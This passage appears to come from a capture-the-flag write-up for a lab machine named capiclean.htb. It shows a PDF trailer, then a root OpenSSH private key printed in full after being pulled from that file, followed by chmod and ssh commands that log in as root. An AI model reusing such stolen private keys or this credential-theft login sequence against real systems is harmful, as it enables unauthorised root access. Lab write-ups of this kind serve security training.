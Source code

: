 ```
0000000290 00000 n 
0000000379 00000 n 
0000000516 00000 n 
0000001250 00000 n 
trailer <<
  /Root 1 0 R
  /Size 7
  /ID [<32176aa2630d5499c0453a377a51ca8b><32176aa2630d5499c0453a377a51ca8b>]
>>
startxref
1270
%%EOF
```

we copy the ssh key out of it into a file like so

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```

Next we set the permissions right on the ssh key. If we don't do this then our SSH client won't try to connect to server to begin with.

```bash
chmod +600 root_id_rsa
```

Then lastly we can connect to the server with the following ssh command:

```bash
ssh -i root_id_rsa  root@capiclean.htb
```
